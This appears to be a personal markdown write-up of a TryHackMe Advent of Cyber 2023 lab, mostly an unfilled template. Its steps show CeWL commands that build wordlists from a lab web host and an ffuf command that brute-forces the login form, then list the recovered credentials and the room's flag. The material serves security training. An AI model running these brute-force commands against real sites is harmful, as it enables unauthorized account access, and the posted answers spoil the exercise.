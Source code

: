 ```yaml
---
creation date: December 4th 2023 (10:25 pm)
last modified date: December 4th 2023 (10:25 pm)
aliases: []
tags: 🎌
---
```

 
Primary Categories: 
Secondary Categories:  
Links: 
# [[THM - AoC 2023 - [Day 4] Baby, it's CeWLd outside]]  


# Resolution summary
- Text
- Text

## Improved skills
- skill 1
- skill 2

## Used tools
- [[nmap]]
- 

---

# Information Gathering
Scanned all TCP ports:
```bash

```

Enumerated open TCP ports:
```bash

```

Enumerated top 200 UDP ports:
```bash

```

---

# Enumeration
## Port 


---

# Exploitation
## Name of the technique


---

# Lateral Movement to user
## Local Enumeration


## Lateral Movement vector


---

# Privilege Escalation
## Local Enumeration


## Privilege Escalation vector


---

# Steps

1. Start by grabbing a password list using [[Custom Wordlist Generator|CeWL]]
```bash
cewl -d 2 -m 5 http://10.10.118.91/ -w password.list --with-numbers
```

2. Do the same for usernames on the team member page
```bash
cewl -d 0 -m 5 http://10.10.118.91/team.php -w usernames.list --lowercase
```

3. The task calls to use [[wfuzz]] but I decided to use [[ffuf]]
```bash
ffuf -w password.list:W1,usernames.list:W2 -X POST -d "username=W2&password=W1" -u http://10.10.118.91/login.php -t 150 -ac -H "Content-Type: application/x-www-form-urlencoded"
```

4. Flag located under Inbox -> `kevin@northpole.thm`



---

# Trophy & Loot

## Credentials
- Admin page
	- isaias : Happiness

## Scripts


## Task Answers

  
What is the correct username and password combination? Format username:password
```
isaias:Happiness
```

What is the flag?  
```
THM{m3rrY4nt4rct1crAft$}
```

If you enjoyed this task, feel free to check out the [Web Enumeration](https://tryhackme.com/room/webenumerationv2) room.
```
Submit
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


